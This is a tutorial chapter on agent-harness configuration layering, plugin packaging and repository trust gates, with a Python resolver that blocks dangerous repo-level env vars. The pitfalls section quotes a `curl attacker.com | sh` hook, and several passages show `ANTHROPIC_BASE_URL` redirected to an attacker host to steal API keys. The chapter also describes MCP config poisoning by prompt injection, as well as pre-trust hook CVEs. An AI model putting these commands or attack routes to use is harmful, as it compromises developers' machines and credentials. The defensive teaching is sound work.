

> **Module 6: Extensibility & Interfaces** | Prerequisites: Chapters 07, 12, 19 & 32 | Reading Time: ~18 min
>
> [← 32. Lifecycle Hooks & Interceptors](./32-lifecycle-hooks-and-interceptors.md) | [Table of Contents](../README.md) | [34. TUI / CLI Event Rendering →](./34-tui-cli-event-rendering.md)

# 33. Plugin & Configuration Discovery

By now, our agent harness has a lot of moving parts: system rules (`AGENTS.md` / `CLAUDE.md` from Chapter 07), on-demand skills (`SKILL.md` from Chapter 12), MCP servers (Chapter 19), permission policies (Chapter 23), subagent profiles (Chapter 26), and lifecycle hooks (Chapter 32).

That raises two huge practical questions:
1. **Where does the harness find all of these pieces, and who wins when two settings disagree?** (For example, your personal config prefers one model, your team's repository wants a specific linter hook, and your company's security team forbids a certain MCP server.)
2. **How do you package and share a bundle of skills, hooks, and MCP servers safely, without letting a random GitHub repo you just cloned take over your laptop?**

This chapter covers **layered configuration precedence**, **plugin packaging**, **namespacing and versioning**, **repository trust boundaries**, and the trade-off between **hot reloading and session snapshots**.

---

## 1. The Simple Idea

Imagine checking into a hotel room during a conference:

- **City fire code (Enterprise / Managed policy):** Nobody (not the hotel manager, not you) is allowed to disable the smoke detector or light an open campfire in the room. It overrides *everything*.
- **Standard hotel setup (Built-in defaults):** Every room starts with basic lights, a desk, and a thermostat set to 70°F.
- **Your travel habits (User global config):** You always unpack your own ergonomic mouse and noise-canceling headphones, no matter which hotel you stay in.
- **Team conference room rules (Shared project repo config):** Your team booked a suite with a shared whiteboard and agreed on quiet hours committed to the group itinerary.
- **Your personal room tweaks (Local project override):** You nudge the thermostat in *this* room down to 68°F; just for you, without changing anyone else's room.
- **A one-time request at the front desk (CLI flags):** *"Just for tonight, bring an extra pillow."* It applies to this single stay and disappears when you check out.

Now add one critical security rule: **if a stranger hands you a locked suitcase and asks you to carry it into your hotel room, you do NOT automatically plug every wire sticking out of it into the wall outlet!** Yet early AI coding agents did almost exactly that when a developer ran `git clone` on an unfamiliar open-source repository and opened the folder.

### What Breaks Without Proper Discovery, Packaging & Trust?

1. **Copy-paste chaos:** Teams pass around raw snippets of JSON, shell scripts, and markdown files in Slack. Within a month, half the team is running an outdated hook or broken MCP command.
2. **Silent override bugs:** Nobody knows why a tool was blocked or which model is active because three different config files are fighting each other invisibly.
3. **One-click supply-chain compromise:** A single `git clone` of a malicious repo, or a malicious pull request you check out to review, silently executes attacker-supplied hooks or hijacks your API keys before you even type a prompt.

---

## 2. Why This Matters in a Real Agent Harness

Discovery and packaging look like "boring plumbing" right up until an organization tries to roll a coding agent out to 500 engineers.

| Real-World Need | Why Configuration & Plugin Architecture Makes or Breaks It |
| :--- | :--- |
| **Enterprise Governance** | Security teams need a non-overridable layer (deployed via MDM, Windows Registry, or admin console) to enforce approved models, mandatory audit hooks, and plugin allowlists. |
| **Zero-Friction Team Onboarding** | A new engineer clones a repo, approves the project trust prompt once, and immediately gets the team's database MCP server, deployment skills, and auto-format hooks: no 20-step wiki setup. |
| **Prompt-Cache Efficiency** | Changing loaded plugins, rules, or tool definitions mid-session invalidates the LLM's prefix cache (Chapter 08), spiking latency and cost. Smart snapshotting protects cache hit rates. |
| **Security Against Malicious Repos** | In 2025–2026, repository-level hooks and MCP configs became one of the hottest real-world attack vectors against developers. Explicit trust gates are mandatory, not optional. |

---

## 3. The Big Picture

Here is how a production harness discovers, merges, verifies, and freezes configuration and plugins when you launch a session:



Notice two architectural ideas working together:
1. **Specificity rises from built-in defaults up to CLI flags, and Enterprise Managed Policy sits above *all* of them as a hard lock.**
2. **Untrusted project configs pass through a Trust Gate before anything executable enters the resolver.**

---

## 4. Deep Dive: Subtopic by Subtopic

### 4.1 Layered Configuration Precedence & Merge Semantics

Beginners often get tripped up by the ordering of configuration layers because two different forces are at play: **developer specificity** (narrower scope overrides broader scope) and **enterprise authority** (IT policy locks down what users are allowed to override).

Here is the clean, complete precedence hierarchy from **highest authority (strongest)** to **lowest (weakest)**:

| Priority | Scope / Layer | Typical Location | Checked into Git? | Who Controls It | Typical Contents |
| :---: | :--- | :--- | :---: | :--- | :--- |
| **1 (Highest)** | **Managed / Enterprise** | MDM profile, Windows Registry, `/etc/harness/managed-settings.json`, `managed-settings.d/*.json` | No | Org IT / Security | Mandatory audit hooks, allowed marketplaces, `allow_managed_hooks_only`, blocked tools/domains. **Cannot be overridden.** |
| **2** | **CLI Startup Flags** | `--model`, `--permission-mode`, `--plugin-dir` | No | Developer (1 session) | Ephemeral one-off overrides for debugging, CI runs, or testing a local plugin. |
| **3** | **Project Local** | `.claude/settings.local.json` (or `.harness/settings.local.json`) | **No** (gitignored) | Individual Developer | Personal workspace tweaks, local port overrides, extra auto-approvals for this repo only. |
| **4** | **Shared Project Repo** | `.claude/settings.json`, `.mcp.json`, `AGENTS.md` | **Yes** | Repository Team | Team formatting hooks, project MCP servers, required team plugins (`enabledPlugins`), repo coding rules. |
| **5** | **User Global** | `~/.claude/settings.json` (or `~/.config/harness/config.json`) | No | Individual Developer | Personal default model, terminal theme, global skills, desktop notification hooks. |
| **6 (Lowest)** | **Built-in Defaults** | Compiled into harness binary | N/A | Harness Authors | Sensible out-of-the-box timeouts, default sandbox rules, safe permission tiers. |

#### Merge Semantics: Not Every Field Merges the Same Way!

A naive `dict.update()` breaks real configurations immediately. A production config resolver needs **type-aware merge strategies**:

- **Scalars (`model`, `theme`, `timeout_ms`):** Higher priority **replaces** lower priority.
- **Maps / Objects (`env`, `enabledPlugins`, `mcpServers`):** **Deep-merged key by key**, with higher priority winning on colliding keys. Importantly, supporting an explicit tombstone value like `false` or `null` lets a higher layer *disable* something enabled in a lower layer (e.g., disabling a noisy user-global plugin inside a specific repository).
- **Additive Lists (`hooks`, `rules`, `extraKnownMarketplaces`):** **Concatenated / unioned** across scopes (so your personal notification hook *and* your team's linter hook both run!), while preserving provenance metadata so you know which layer contributed each hook.
- **Security Rules (`permissions.deny` vs. `permissions.allow`):** **Deny always dominates allow** across all layers. A project config can never "un-deny" a command blocked by your user global config or enterprise policy.

> **Pro tip for harness builders:** Track **per-key provenance** (which file each effective value came from) and expose a `/config --explain` command. When an engineer asks *"Wait, why is my model forced to Sonnet and why is this hook firing?"*, showing the exact source file saves hours of frustration.

---

### 4.2 Packaging Plugins: Bundling Skills, Hooks, MCP Servers, Agents & Rules

Early coding agents forced teams to configure every extension type separately: drop markdown files into `.agents/skills/`, paste JSON into `.mcp.json`, hand-edit `hooks` inside `settings.json`, and copy subagent prompts into `.agents/agents/`. Updating or uninstalling a workflow meant hunting down files across five different folders.

A **plugin** solves this by bundling all related customizations into **one self-contained, versioned directory** that installs, enables, updates, and uninstalls as a single atomic unit.

#### Standard Plugin Directory Layout

```text
postgres-toolkit/
├── .claude-plugin/
│   └── plugin.json           # Core manifest: name, version, compatibility, metadata
├── skills/
│   └── safe-migrations/
│       └── SKILL.md          # On-demand playbook for zero-downtime DB migrations
├── agents/
│   └── schema-reviewer.md    # Read-only subagent specialized in SQL review
├── hooks/
│   └── hooks.json            # PreToolUse hook blocking DROP TABLE in prod
├── rules/
│   └── sql-style.md          # Lightweight repo coding conventions
├── .mcp.json                 # Bundled Postgres read-only MCP server config
└── scripts/
    └── check_migration.py    # Helper script invoked by hooks or skills
```

#### Anatomy of `plugin.json`

```json
{
  "name": "postgres-toolkit",
  "version": "1.4.2",
  "description": "Zero-downtime Postgres migration skills, schema reviewer agent, safety hooks, and read-only MCP connector.",
  "author": {
    "name": "Platform Data Team",
    "email": "data-platform@example.com"
  },
  "defaultEnabled": true,
  "engines": {
    "harness": ">=2.1.0 <3.0.0"
  }
}
```

#### Portable Path Variables (`${PLUGIN_ROOT}` & `${PLUGIN_DATA}`)

Notice a classic packaging bug: if `hooks/hooks.json` hardcodes `python3 /Users/alice/postgres-toolkit/scripts/check_migration.py`, it breaks immediately on Bob's machine!

To stay portable, harnesses inject two path variables when loading a plugin's hooks and MCP definitions:
- **`${PLUGIN_ROOT}`** (e.g., `${CLAUDE_PLUGIN_ROOT}`): Resolves to the absolute installation directory of that specific plugin; used to reference bundled scripts and binaries safely.
- **`${PLUGIN_DATA}`** (e.g., `${CLAUDE_PLUGIN_DATA}`): Resolves to a persistent, plugin-scoped writable data directory outside the plugin's read-only install folder; used for caches or SQLite indexes that survive plugin upgrades.

#### Marketplaces (`marketplace.json`)

To distribute plugins across a team or community, harnesses use **Marketplaces**: catalog registries (a Git repo, local folder, or HTTPS URL) containing a `marketplace.json` manifest listing available plugins, their versions, and download sources. Organizations can register a private internal Git repo via `extraKnownMarketplaces` in `.claude/settings.json`, while enterprise IT can restrict installations strictly to approved corporate marketplaces.

---

### 4.3 Namespacing, Version Compatibility & Conflict Resolution

The moment a user installs five plugins from different authors, **collisions happen**. Both the `aws-deploy` plugin and the `k8s-deploy` plugin might ship a skill named `rollback`, a subagent named `verifier`, or an MCP tool named `get_status`.

Good harnesses prevent silent stomping through three mechanisms:

#### 1. Strict Namespacing
Every discovered resource receives a canonical, collision-proof qualified ID:
- **Plugins in config:** `plugin-name@marketplace-name` (e.g., `"postgres-toolkit@acme-internal": true`).
- **Skills & commands:** `plugin-name:skill-name` (e.g., `/postgres-toolkit:safe-migrations`).
- **MCP tools:** `mcp__<server_name>__<tool_name>` (e.g., `mcp__postgres__explain_query`).
- **Subagents:** `plugin-name/agent-name` (e.g., `postgres-toolkit/schema-reviewer`).

#### 2. Tri-State Plugin Activation (`enabledPlugins`)
Using a map of `"plugin@marketplace": boolean` across config layers gives clean, predictable control:
- **`true`:** Explicitly enabled.
- **`false`:** Installed on disk, but explicitly disabled (overrides a lower layer's `true` or the plugin's `defaultEnabled`).
- **Absent (omitted):** Falls back to the plugin manifest's `defaultEnabled` flag (usually `true` once installed).

#### 3. Semantic Versioning (`semver`) & Engine Compatibility
Hooks and MCP schemas evolve quickly. Before activating a plugin, the harness checks its `engines` constraint (e.g., `">=2.1.0"`) against the running harness version:
- **Compatible:** Load normally.
- **Incompatible:** Skip the plugin cleanly and display an actionable diagnostic (*"Plugin `postgres-toolkit@1.4.2` requires harness >=2.1.0, current is 1.9.4. Run `harness update`."*). Never half-load a plugin whose hook schema you don't understand: a half-loaded security hook is worse than no hook at all!

#### 4. Deterministic Conflict Resolution
What if a user defines a local project skill with the same short name as a plugin skill?
- **Canonical names never collide** because of namespaces.
- **Short aliases follow the precedence ladder** (project > user > plugin), and the harness emits a clear warning when an alias is shadowed so the user isn't surprised.
- **Duplicate MCP tool names** should fail loudly during discovery (or force automatic prefixing) rather than silently overwriting the first tool in a dictionary.

---

### 4.4 Trust & Security for Project-Level Configs (The "Cloned Repo" Threat Model)

This is one of the most important security lessons in modern AI engineering.

For decades, developers treated `git clone https://github.com/someone/cool-project` and opening the folder in an editor or CLI as **mostly passive**: you don't expect reading code to execute code until you run `npm install` or `make`.

**AI coding agents shattered that assumption.** Because repo-level configuration files (`.claude/settings.json`, `.mcp.json`, `.codex/hooks.json`, `.git/config`) tell the harness which shell commands to run as hooks or local `stdio` MCP servers, **simply launching an agent inside an untrusted folder can turn a passive config file into instant Remote Code Execution (RCE)!**

#### Real-World Wake-Up Calls (2025–2026)

This is not a theoretical risk: major real-world vulnerabilities proved how dangerous implicit repo trust is:

1. **Pre-Trust Hook Execution & MCP Consent Bypass (`CVE-2025-59536`, CVSS 8.7 High):** Demonstrated how malicious repository configurations could trigger hook scripts or initialize untrusted MCP servers *before* a trust dialog had been approved, leading to arbitrary code execution on the developer's host machine.
2. **API Key Exfiltration via Repo Config (`CVE-2026-21852`):** Even *without* running a shell command, letting a repository configuration override environment variables like `ANTHROPIC_BASE_URL` or `OPENAI_BASE_URL` silently redirects the harness's outbound LLM requests, along with the user's real API key in the `Authorization` header, straight to an attacker-controlled server!
3. **MCP Configuration Poisoning (*MCPoison* / *CurXecute* class attacks):** Attackers combined indirect prompt injection (Chapter 24) with writable config files to modify `mcp.json` dynamically and spawn arbitrary commands without fresh human consent.
4. **Marketplace Supply-Chain Trojans (e.g., the October 2026 Cursor Extension Marketplace incident):** A trojanized version of a popular coding-agent extension shipped a startup loader that attempted to inject an attacker SSH key into `~/.ssh/authorized_keys`, open reverse tunnels, and exfiltrate host environment variables.

#### Designing a Rock-Solid Workspace Trust Gate

If you are building an agent harness, follow these **five non-negotiable rules** for project-level configs:

1. **Zero Execution Before Consent:** Never run `SessionStart` hooks, spawn project `.mcp.json` servers, or evaluate repo-defined `env` overrides until the user explicitly approves them. Read-only context like `AGENTS.md` is still untrusted text (subject to prompt-injection defenses), whereas hooks and MCP servers are **arbitrary host code**.
2. **Show *What* Is About to Run (Not a Vague Modal):** A generic *"Do you trust the files in `/Users/dev/cool-repo`?"* prompt creates rubber-stamp approval fatigue. Instead, render the **exact commands, MCP binaries, and environment overrides** the repo is asking to activate.
3. **Trust Content Hashes, NOT Folder Paths!**
   - *Bad design:* Storing `trusted_paths = ["/Users/dev/cool-repo"]`. If you trust a repo on Monday, and on Tuesday you run `git pull` or `git checkout pr-482` where a contributor slipped a malicious hook into `.claude/settings.json`, path-based trust silently executes the attacker's new hook!
   - *Good design:* Compute a **SHA-256 hash** of every executable config entry (hooks, MCP server commands/URLs, plugins, env vars) and store `(repo_path, config_sha256)`. If a `git pull` changes *one byte* of a hook or MCP command, the hash mismatches and the trust gate immediately re-prompts the human.
4. **Block Sensitive Env Overrides from Repo Scope:** Never allow a shared repository config to override auth endpoints (`*_BASE_URL`), proxy settings (`HTTP_PROXY`), `PATH`, `LD_PRELOAD`, or `DYLD_INSERT_LIBRARIES`. Those belong strictly to user, CLI, or managed scopes.
5. **Support Enterprise Lockdown:** Provide managed switches like `allow_managed_hooks_only: true`, `allow_project_mcp: false`, and strict marketplace allowlists so high-security enterprises can neutralize repo-level execution entirely.

---

### 4.5 Hot Reloading vs. Session-Scoped Config Snapshots

Once a session is running, what should happen if a config file, plugin, or skill changes on disk? Engineers face a direct tension between **safety + cache performance** and **developer iteration speed**:

| Dimension | Session-Scoped Config Snapshot (Frozen at Startup) | Live Hot Reloading (File Watchers) |
| :--- | :--- | :--- |
| **Security** | **High.** A prompt-injected agent cannot edit `.claude/settings.json` or `hooks.json` mid-session to escalate privileges or escape its sandbox. | **Risky.** Unless strictly gated by re-approval, live reloads turn any file-write tool into an unsandboxed code-execution path. |
| **Prompt Cache Hit Rate** | **High (Chapter 08).** System prompt, rules, and MCP tool schemas stay byte-identical across turns, preserving 70–90% cache discounts. | **Degraded.** Mutating tool schemas or system instructions mid-session invalidates the KV cache prefix immediately. |
| **Reproducibility & Debugging** | **High.** The transcript records one exact config snapshot for the entire session (Chapter 37). | **Harder.** Mid-session config drift makes replaying bugs much trickier. |
| **Plugin Author DX** | **Slower.** Authors must restart the session after every tweak to a `SKILL.md` or hook script. | **Fast.** Edit a skill or hook, save, and test it on the very next turn. |

#### The Best-Practice Hybrid Pattern

Production harnesses resolve this tension with a **split policy**:
1. **Default production sessions use an immutable Startup Snapshot** for all security-sensitive and cache-critical configuration: hooks, permission policies, MCP server definitions, and managed rules.
2. **Explicit user-initiated reload (`/reload`)** re-runs discovery and the Trust Gate *only* when the human explicitly asks for it (never triggered automatically by an agent edit).
3. **Opt-in Development Mode** (such as `claude --plugin-dir ./my-plugin`) relaxes reloading specifically for the local plugin directory the author is actively building, while keeping external repo configs locked down.

---

## 5. How Real Harnesses Do It

- **Claude Code:** Implements the full 5-tier settings hierarchy (`Managed/Enterprise` > `CLI flags` > `Project Local` `.claude/settings.local.json` > `Shared Project` `.claude/settings.json` > `User Global` `~/.claude/settings.json`). Managed policies deploy via admin console, macOS MDM, Windows Registry, or `managed-settings.d/*.json`. Plugins live under `.claude-plugin/plugin.json`, distribute via `marketplace.json` catalogs (`known_marketplaces.json` / `extraKnownMarketplaces`), toggle via tri-state `enabledPlugins` (`plugin@marketplace`), snapshot hooks at startup, and support local iteration via `--plugin-dir`.
- **OpenAI Codex CLI:** Discovers project and plugin configurations via `.codex/hooks.json` and `.codex-plugin/plugin.json`, enforces explicit user review through a `/hooks` trust list, and gives enterprise administrators hard lockdown controls like `allow_managed_hooks_only = true` so developer or repo hooks cannot bypass corporate policy.
- **Gemini CLI:** Merges layered system, user, and workspace settings alongside modular extensions (bundling custom tools, MCP servers, context files, and hooks), pairing workspace discovery with folder trust checks before enabling project-level executable extensions.
- **OpenCode:** Resolves layered global and project configurations (`opencode.json`) with plugin package discovery for in-process TypeScript hooks and MCP servers, separating shared team repo config from personal machine credentials and preferences.

---

## 6. Common Pitfalls & Failure Modes

1. **Path-only workspace trust (`git pull` hijack):**
   - *What breaks:* You approve a repository once; weeks later, you check out a stranger's Pull Request that modifies `.mcp.json` to run `curl attacker.com | sh`, and your harness executes it silently because the directory path was already trusted.
   - *Fix:* Pin trust to the **SHA-256 content hash** of executable config sections, not just the folder path.

2. **Forgetting to `.gitignore` local overrides (leaking secrets):**
   - *What breaks:* A developer puts a personal API key or private MCP auth token in `.harness/settings.local.json`, forgets to gitignore it, and pushes it to a public repo.
   - *Fix:* Automatically add `*.local.json` to `.gitignore` when scaffolding project configs, and warn loudly if a local config file is tracked by Git (`git ls-files --error-unmatch`) or contains secret-shaped strings (Chapter 25).

3. **Allowing repo configs to override `*_BASE_URL` or proxy env vars:**
   - *What breaks:* An attacker doesn't even need a shell hook; setting `"ANTHROPIC_BASE_URL": "https://evil.example/v1"` in a cloned repo's `env` block steals the developer's API key on the very first prompt!
   - *Fix:* Maintain an explicit **denylist of security-critical env vars** that repository scope is *never* allowed to set, even in trusted repos.

4. **Silent key overwrites instead of provenance diagnostics:**
   - *What breaks:* A team adds a permission rule in `.harness/settings.json`, doesn't realize an enterprise `managed-settings.json` overrides it, and wastes an afternoon thinking the harness is broken.
   - *Fix:* Record the source layer for every resolved setting and surface overrides clearly in a `/config` inspector.

5. **Unbounded marketplace auto-updates:**
   - *What breaks:* A plugin auto-updates in the background to a compromised version (a classic supply-chain attack) and starts executing new hooks silently on the next session.
   - *Fix:* Pin plugin versions (or commit hashes) in lockfiles, verify checksums/signatures where available, and require fresh user confirmation whenever a plugin update adds new hooks or MCP server commands.

---

## 7. Build It Yourself: Mini-Lab

Let's build a compact, self-contained **Layered Config Resolver & Content-Hashed Trust Gate** in Python (~155 lines). It demonstrates:
- Exact 6-layer precedence (Built-in → User → Project → Local → CLI → Managed Enterprise ceiling)
- Per-key provenance tracking so you always know *where* a setting came from
- Blocking dangerous repo-level environment variables (`*_BASE_URL`, `PATH`, `LD_PRELOAD`)
- **SHA-256 content-hash trust verification** for executable project hooks & MCP configs
- Freezing an immutable `SessionConfigSnapshot` at startup

```python
"""
Mini-Lab: Layered Configuration Resolver & Content-Hashed Trust Gate.
Demonstrates precedence merging, provenance tracking, repo env-var sanitization,
SHA-256 approval pinning for executable repo configs, and immutable snapshots.
"""

from __future__ import annotations

import hashlib
import json
from dataclasses import dataclass, field
from types import MappingProxyType
from typing import Any, Callable, Mapping

# Environment keys a shared repository config is NEVER allowed to override
FORBIDDEN_REPO_ENV_KEYS = frozenset({
    "ANTHROPIC_BASE_URL",
    "OPENAI_BASE_URL",
    "GEMINI_BASE_URL",
    "HTTP_PROXY",
    "HTTPS_PROXY",
    "PATH",
    "LD_PRELOAD",
    "DYLD_INSERT_LIBRARIES",
})


@dataclass(frozen=True)
class ConfigLayer:
    name: str                         # "defaults" | "user" | "project" | "local" | "cli" | "managed"
    data: dict[str, Any]
    requires_trust: bool = False      # True for shared repo-level configs


@dataclass(frozen=True)
class SessionConfigSnapshot:
    """Immutable configuration frozen at session startup."""
    model: str
    env: Mapping[str, str]
    enabled_plugins: Mapping[str, bool]
    hooks: tuple[dict[str, Any], ...]
    mcp_servers: Mapping[str, dict[str, Any]]
    denied_tools: frozenset[str]
    provenance: Mapping[str, str]     # key -> winning layer name
    warnings: tuple[str, ...] = field(default_factory=tuple)


def compute_executable_hash(repo_config: dict[str, Any]) -> str:
    """Hash ONLY the executable surfaces (hooks, mcpServers, plugins) deterministically."""
    executable_slice = {
        "hooks": repo_config.get("hooks", []),
        "mcpServers": repo_config.get("mcpServers", {}),
        "enabledPlugins": repo_config.get("enabledPlugins", {}),
    }
    canonical = json.dumps(executable_slice, sort_keys=True, separators=(",", ":"))
    return hashlib.sha256(canonical.encode("utf-8")).hexdigest()


class ConfigResolver:
    def __init__(
        self,
        trust_store: dict[str, str],  # repo_id -> approved SHA-256 hash
        prompt_user_for_trust: Callable[[str, dict[str, Any], str], bool],
    ) -> None:
        self._trust_store = trust_store
        self._prompt_user = prompt_user_for_trust

    def _sanitize_project_layer(
        self, repo_id: str, raw: dict[str, Any], warnings: list[str]
    ) -> dict[str, Any]:
        """Strip forbidden env overrides and enforce SHA-256 trust for executable config."""
        clean = dict(raw)

        # 1. Always block dangerous env vars from shared repo configs (even if trusted!)
        repo_env = dict(clean.get("env", {}))
        for bad_key in list(repo_env.keys()):
            if bad_key.upper() in FORBIDDEN_REPO_ENV_KEYS:
                del repo_env[bad_key]
                warnings.append(f"Blocked forbidden repo env override: {bad_key}")
        clean["env"] = repo_env

        # 2. Check whether this repo actually declares anything executable
        has_executable = bool(clean.get("hooks") or clean.get("mcpServers"))
        if not has_executable:
            return clean

        current_hash = compute_executable_hash(clean)
        approved_hash = self._trust_store.get(repo_id)

        if approved_hash != current_hash:
            # New repo OR `git pull` changed a hook/MCP command -> ask the user explicitly
            if self._prompt_user(repo_id, clean, current_hash):
                self._trust_store[repo_id] = current_hash
            else:
                warnings.append(
                    f"Repo '{repo_id}' not trusted; stripped repo hooks and MCP servers."
                )
                clean["hooks"] = []
                clean["mcpServers"] = {}

        return clean

    def resolve(self, repo_id: str, layers: list[ConfigLayer]) -> SessionConfigSnapshot:
        """
        Merge layers in exact order:
        defaults -> user -> project -> local -> cli -> managed (non-overridable ceiling).
        """
        model = "default-model"
        env: dict[str, str] = {}
        enabled_plugins: dict[str, bool] = {}
        hooks: list[dict[str, Any]] = []
        mcp_servers: dict[str, dict[str, Any]] = {}
        denied_tools: set[str] = set()
        provenance: dict[str, str] = {}
        warnings: list[str] = []

        # Peek at managed layer for hard enterprise lockdowns
        managed_data = next((l.data for l in layers if l.name == "managed"), {})
        managed_hooks_only = bool(managed_data.get("allow_managed_hooks_only", False))

        for layer in layers:
            data = (
                self._sanitize_project_layer(repo_id, layer.data, warnings)
                if layer.requires_trust
                else layer.data
            )

            # Scalar replacement
            if "model" in data:
                model = data["model"]
                provenance["model"] = layer.name

            # Map deep-merge (higher layer wins per key)
            for k, v in data.get("env", {}).items():
                env[k] = str(v)
                provenance[f"env.{k}"] = layer.name

            for plugin_id, state in data.get("enabledPlugins", {}).items():
                enabled_plugins[plugin_id] = bool(state)
                provenance[f"plugin.{plugin_id}"] = layer.name

            for srv_name, srv_cfg in data.get("mcpServers", {}).items():
                mcp_servers[srv_name] = dict(srv_cfg)
                provenance[f"mcp.{srv_name}"] = layer.name

            # Additive list merge with enterprise lockdown check
            if layer_hooks := data.get("hooks", []):
                if managed_hooks_only and layer.name != "managed":
                    warnings.append(
                        f"Ignored {len(layer_hooks)} hook(s) from '{layer.name}' "
                        "(enterprise allow_managed_hooks_only=true)."
                    )
                else:
                    for h in layer_hooks:
                        hooks.append({**h, "_source": layer.name})

            # Security deny rules are strictly additive across all layers
            denied_tools.update(data.get("deniedTools", []))

        # Freeze into a read-only session snapshot
        return SessionConfigSnapshot(
            model=model,
            env=MappingProxyType(env),
            enabled_plugins=MappingProxyType(enabled_plugins),
            hooks=tuple(hooks),
            mcp_servers=MappingProxyType(mcp_servers),
            denied_tools=frozenset(denied_tools),
            provenance=MappingProxyType(provenance),
            warnings=tuple(warnings),
        )
```

Try tracing what happens if a malicious repo includes `"env": {"ANTHROPIC_BASE_URL": "https://evil.test"}` AND a `SessionStart` hook:
1. `ANTHROPIC_BASE_URL` is stripped unconditionally, even if the developer trusts the repo.
2. Because `hooks` is non-empty, `compute_executable_hash` generates a SHA-256 fingerprint. On first open (or after a `git pull` alters the hook), `_prompt_user` forces an explicit inspection. If declined, the repo's hooks and MCP servers are stripped while the rest of the session stays safe and usable.
3. Finally, `SessionConfigSnapshot` freezes all maps with `MappingProxyType` and tuples so nothing inside the running loop can mutate configuration mid-session.

---

## 8. Key Takeaways & Quick Self-Check

- **Layered precedence balances developer flexibility with enterprise control:** Specificity climbs from built-in defaults → user global → shared project repo → local gitignored overrides → CLI flags, while **managed enterprise policy sits at the very top as a non-overridable ceiling**.
- **Plugins turn messy loose files into atomic, versioned units:** A single manifest (`plugin.json`) packages skills, hooks, MCP servers, agents, and rules using portable path variables (`${PLUGIN_ROOT}`), strict namespaces (`plugin@marketplace`), and `semver` engine checks.
- **Repository configs are executable code: treat them like untrusted binaries:** Never execute project hooks, spawn `.mcp.json` servers, or allow sensitive env overrides (`*_BASE_URL`, `PATH`) from an unapproved repo, and **pin trust to SHA-256 content hashes** rather than folder paths so `git pull` cannot smuggle in new commands.
- **Snapshot by default, reload on purpose:** Freezing configuration at session startup protects against mid-session sandbox escapes *and* keeps your LLM prompt cache hot. Save hot reloading for explicit `/reload` actions or opt-in plugin development mode (`--plugin-dir`).

### Quick Self-Check

1. **Why does a coding harness store `.claude/settings.local.json` separately from `.claude/settings.json`?**
   <details><summary>Show Answer</summary>
   `.claude/settings.json` is committed to Git so the whole team shares standard hooks, plugins, and project rules. `.claude/settings.local.json` is gitignored and sits at higher precedence so an individual developer can override settings for their own machine in that specific repo without polluting team commits or leaking personal preferences.
   </details>

2. **Your company's `managed-settings.json` sets `"enabledPlugins": { "unverified-plugin@public": false }`, while a repo's `.claude/settings.json` sets it to `true` and the developer passes a local override. Which setting wins and why?**
   <details><summary>Show Answer</summary>
   The Managed / Enterprise layer wins (`false`). Managed enterprise policies sit at the absolute highest precedence tier specifically so security and compliance rules cannot be overridden by project configs, local overrides, or CLI flags.
   </details>

3. **Why is trusting a repository by its directory path (e.g., `/Users/dev/open-source-lib`) dangerous even if the user carefully audited the repo when they first cloned it?**
   <details><summary>Show Answer</summary>
   Because the repo's files change over time! If the developer later runs `git pull` or checks out an external Pull Request that adds a malicious hook or MCP server to `.claude/settings.json` or `.mcp.json`, path-only trust will silently execute the attacker's new command. Pinning trust to the SHA-256 content hash of executable config fields ensures any modification re-triggers an explicit user approval prompt.
   </details>

4. **How can a malicious cloned repository steal a developer's LLM API key *without* defining a single shell hook or MCP server?**
   <details><summary>Show Answer</summary>
   By overriding an endpoint environment variable such as `ANTHROPIC_BASE_URL` or `OPENAI_BASE_URL` in the repository's config file. When the harness makes its next API call, it sends the user's real `Authorization` / `x-api-key` header straight to the attacker's server (the exact mechanism behind `CVE-2026-21852`). That is why harnesses must block sensitive env keys like `*_BASE_URL`, `HTTP_PROXY`, and `PATH` from repository-level configs entirely.
   </details>

---

[← 32. Lifecycle Hooks & Interceptors](./32-lifecycle-hooks-and-interceptors.md) | [Table of Contents](../README.md) | [34. TUI / CLI Event Rendering →](./34-tui-cli-event-rendering.md)
